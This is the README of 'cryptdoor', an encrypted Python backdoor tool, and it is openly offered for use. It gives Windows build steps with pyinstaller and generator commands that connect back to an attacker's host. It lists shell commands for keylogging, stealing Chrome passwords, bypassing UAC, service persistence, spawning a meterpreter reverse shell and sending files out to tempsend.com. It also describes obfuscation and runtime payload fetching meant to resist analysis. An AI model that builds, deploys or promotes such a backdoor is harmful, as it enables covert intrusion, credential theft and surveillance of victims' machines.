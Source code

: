 cryptdoor
=========

AES encrypted python backdoor that communicates only AES encrypted traffic.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is implemented for windows using pyHook.
All traffic apart from traffic meterpreter makes are encrypted with AES.
On top of this all of the imports are randomized, and the script is encrypted with AES and decrypts 
itself in memory at runtime (taken from pyherion).

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

        "C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

        "C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

        pip install pyinstaller pycrypto requests

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd promt and cd to wherever backdoor.py is.

        pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Usage
=========

        usage: ./cryptdoor.py [options]

        optional arguments:
          -h, --help            show this help message and exit
          -i HOSTNAME, --hostname HOSTNAME
                                Ip or hostname to connect back to.
          -p PORT, --port PORT  Port.
          -o, --obfuscate       Enable Obfuscation of source code.
          -a, --persistence     Enable Auto-persistence.
          -x, --proxy           Enable HTTP proxy connect.
          -b BACKDOORNAME, --backdoorname BACKDOORNAME
                                Name of backdoor (default backdoor.py).
          -s SERVERNAME, --servername SERVERNAME
                                Name of server (default server.py).


cryptdoor.py will make the backdoor and server.
The syntax is:

        ./cryptdoor.py -i host -p port

You can add a -a to attempt automatic persistence and obfuscation with -o:

        ./cryptdoor.py -i host -p port -a -o

host and port refer to the host and port of the listening server (attacker).
These are the options you have from within the shell:

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.
         tempsend file       -  Upload a file from remote pwd to tempsend.com

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 unpersist           -  Remove persistence and exit.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.
    	 proxyupdate file    -  Update proxy list from file.

Proxies
=========

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the stubs/backdoor.py script from line 310-311, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying will not work without one).

3. Then generate your backdoor with the -x switch and replace the IP with your DDNS hostname:

	./cryptdoor.py -i DDNS -p port -x

HTTP proxying is acheived using:

https://github.com/Anorov/PySocks


Obfuscation
=========

Obfuscation of the backdoor source code is acheived using:

https://github.com/astrand/pyobfuscate

Remote payload
=========
The backdoor payload is hosted on tempsend.com and downloaded at runtime by the backdoor.py  
This means the actual backdoor code is not included in the final backdoor.py and is therefore resitant to analysis.
